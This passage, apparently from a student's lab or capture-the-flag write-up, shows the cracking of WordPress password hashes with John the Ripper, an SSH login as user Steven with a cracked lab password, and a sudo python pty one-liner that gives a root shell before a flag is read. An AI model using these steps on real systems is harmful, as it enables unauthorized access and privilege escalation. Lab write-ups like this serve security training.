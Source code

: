Created a wp_hashes.txt with Steven and Michael's hashes,cracked the password hashes with `john`.

On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - ```john wp_hashes.txt```

![john](https://github.com/Reeti4cyber/Final-Project/blob/main/Images/john.png "john")

Secured a user ``Steven`` shell as the user whose password cracked as ``pink84``.



![stevenssh](https://github.com/Reeti4cyber/Final-Project/blob/main/Images/stevenssh.png "stevenssh")

**Privilege escalation using Python**

Escalated to root, using the python script

`sudo python -c 'import pty;pty.spawn("/bin/bash")' `

![python](https://github.com/Reeti4cyber/Final-Project/blob/main/Images/python.png "python")

Once escalated to root 
   - Commands
           - `cd /root`
           - `ls`
           - `cat flag4.txt`

- **Flag4: 715dea6c055b9fe3337544932f2941ce**


       